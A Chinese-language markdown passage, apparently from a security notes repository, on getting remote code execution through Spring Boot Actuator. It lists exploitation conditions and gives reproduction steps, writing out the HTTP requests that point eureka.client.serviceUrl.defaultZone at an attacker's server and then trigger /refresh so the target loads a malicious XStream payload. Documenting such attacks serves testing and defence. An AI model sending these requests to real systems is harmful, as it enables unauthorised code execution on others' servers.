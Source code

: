 ##### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标使用的 `eureka-client` < 1.8.7（通常包含在 `spring-cloud-starter-netflix-eureka-client` 依赖中）
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

![image-20230711220504085](../../../images/image-20230711220504085.png)

##### 复现

修改要执行的命令后

![image-20230623213306180](../../../images/image-20230623213306180.png)

起一个恶意eureka server 

![image-20230623213230483](../../../images/image-20230623213230483.png)

设置eureka.client.serviceUrl.defaultZone 属性为恶意的外部 eureka server URL 地址

```http
# spring 1.x
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example

# spring 2.x
POST /actuator/env
Content-Type: application/json
    
{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/example"}
```

![image-20230623213048736](../../../images/image-20230623213048736.png)

 refresh 触发目标机器请求远程 URL，提前架设的  eureka server 就会返回恶意的 payload

```http
# spring 1.x

POST /refresh
Content-Type: application/x-www-form-urlencoded  

# spring 2.x
POST /actuator/refresh
Content-Type: application/json
```

![image-20230623212943456](../../../images/image-20230623212943456.png)

从而触发 XStream 反序列化，造成 RCE 漏洞

![image-20230623212922680](../../../images/image-20230623212922680.png)
